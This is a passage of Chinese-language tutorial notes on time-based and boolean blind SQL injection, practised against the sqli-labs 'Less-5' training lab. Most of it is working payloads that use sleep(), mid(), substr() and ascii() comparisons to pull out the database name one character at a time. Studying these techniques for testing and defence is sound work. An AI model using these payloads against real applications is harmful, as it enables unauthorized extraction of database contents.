 `select * from security.users where id=1 and sleep(if(database()='xx',2,3));`

*   通过查询数据库的字符长度判断是否存在SQL注入漏洞

`select * from security.users where id=1 and sleep(if(length(database()=1),3,10)); `

-   使用mid来进行猜解数据库名(注意参数内的括号位置)

`select * from users where id=1 and sleep(if(mid(database(),1,1)='s',0,10)); `

-   使用substr来进行猜解数据库名(与mid操作相同)

`select * from users where id=1 and sleep(if(substr(database(),1,1)='s',0,10));`

-   使用left来查询数据库的库名长度(从左边开始，第一个字符是什么)

`select * from users where id=1 and sleep(if(left(database(),1)='s',2,10));`

-   使用ascii码来进行对照操作（排除使用字母直接去匹配的情况）

` select * from users where id=1 and if(ascii(mid((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101,sleep(2),0);`

### 使用boolean进行盲注

-   通过不同的运算符来进行猜解数据库名

`http://192.168.0.68:8080/Less-5/?id=2' and ascii(mid(database(),1,1))=115 -- +` 

解析：?id=2 正常输入数值为有回显，使用ascii编码测试当前数值的第一位是否与代号115的ascii值是否相等，如果页面成功有回显，则说明当前值相等，否则不相等

同理：可以使用`运算符`来使用二分法来进行判断`>`,`<`,`=`,`!=`

```sql
# 当前数据库为security--对应的第一个字母为：s(ascii=115)
http://192.168.0.68:8080/Less-5/?id=2' and ascii(mid(database(),1,1))=115 -- +  (正确)
http://192.168.0.68:8080/Less-5/?id=2' and ascii(mid(database(),1,1))!=115 -- +	（错误）
http://192.168.0.68:8080/Less-5/?id=2' and ascii(mid(database(),1,1))>116 -- +	（错误）
http://192.168.0.68:8080/Less-5/?id=2' and ascii(mid(database(),1,1))<117 -- +	（正确）

# 查找当前数据库的库名的首字母
http://192.168.0.68:8080/Less-5/?id=2' and ascii(substr((select table_schema from information_schema.tables where table_schema=database() limit 1,1),1,1))=115 -- '

## 查找当前数据库的第二个字母
http://192.168.0.68:8080/Less-5/?id=2' and ascii(substr((select table_schema from information_schema.tables where table_schema=database() limit 1,1),2,1))=101 -- '
```

注：需要mysql的版本高于5.1

`select version();`

`http://192.168.0.68:8080/Less-5/?id=2' and substr(version(),1,1)=5 --'`

### SQL注入之加解密注入

当前数据库在查询时会将用户输入的内容进行格式化后操作，比如：加入反斜杠等等,查看这里[get_magic_quotes_gpc](https://www.php.net/manual/en/function.get-magic-quotes-gpc.php)
